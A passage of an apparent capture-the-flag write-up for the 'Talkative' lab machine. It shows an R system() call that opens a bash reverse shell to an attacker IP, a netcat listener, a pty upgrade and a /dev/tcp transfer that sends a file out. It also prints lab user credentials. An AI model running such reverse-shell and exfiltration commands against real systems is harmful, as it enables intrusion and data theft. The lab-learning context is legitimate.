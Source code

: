 ![image.png]({{ site.baseurl }}/assets/talkative/image%2011.png)

It seems we can run commands. Let’s get a reverse shell back:

```bash
system("bash -c 'sh -i >& /dev/tcp/10.10.16.9/4444 0>&1'", intern = TRUE)
```

Now start a listener:

```bash
nc -lnvp 4444
```

We now have shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/talkative/image%2012.png)

Looking around, we find a .omv file in root’s dir. Let’s transfer that back to our attack host; nc is not on target:

```bash
#on attack host
nc -lnvp 1234 > bolt-administration.omv

#on target

cat bolt-administration.omv > /dev/tcp/10.10.16.9/1234
```

Now let’s verify file integrity with md5sum:

```bash
md5sum bolt-administration.omv
```

![image.png]({{ site.baseurl }}/assets/talkative/image%2013.png)

It matches. Let’s unzip the archive now:

```bash
unzip bolt-administration.omv

cat xdata.json 
 
{"A": {"labels": [[0, "Username", "Username", false], [1, "matt@talkative.htb", "matt@talkative.htb", false], [2, "janit@talkative.htb", "janit@talkative.htb", false], [3, "saul@talkative.htb", "saul@talkative.htb", false]]}, "B": {"labels": [[0, "Password", "Password", false], [1, "jeO09ufhWD<s", "jeO09ufhWD<s", false], [2, "bZ89h}V<S_DA", "bZ89h}V<S_DA", false], [3, ")SQWGm>9KHEA", ")SQWGm>9KHEA", false]]}, "C": {"labels": []}}          
```

It seems we get password for all three users. Let’s login as saul first since he is the CEO. Going back to the bolt cms:
